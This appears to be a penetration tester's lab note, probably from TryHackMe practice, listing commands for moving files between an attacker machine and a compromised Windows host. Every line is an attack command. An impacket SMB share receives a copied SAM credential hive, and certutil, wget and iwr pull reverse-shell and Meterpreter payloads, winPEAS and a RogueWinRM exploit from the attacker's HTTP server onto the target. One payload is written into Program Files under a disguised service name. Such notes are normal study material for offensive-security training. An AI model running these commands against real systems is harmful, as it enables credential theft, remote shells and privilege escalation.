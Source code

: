 
## copy files from win

[[../08 - SMB/smb - server|smb - server]]
[[impacket]]

create share for upload to our machine
atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`

cmd: `copy sam.hive \\10.18.21.236\myshare`

## copy files to win

as above

atk: `python3 -m http.server 8000`

ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
ps: `iwr "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" -outfile "C:\windows\temp\revsh-meterpr-444.exe"`
try skipping outfile

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/exploits/RogueWinRM.exe" "RogueWinRM.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "revsh-443.exe"`
cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-443.exe" "message.exe"`

cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/enum/winPEAS.bat" "winpeas.bat"`
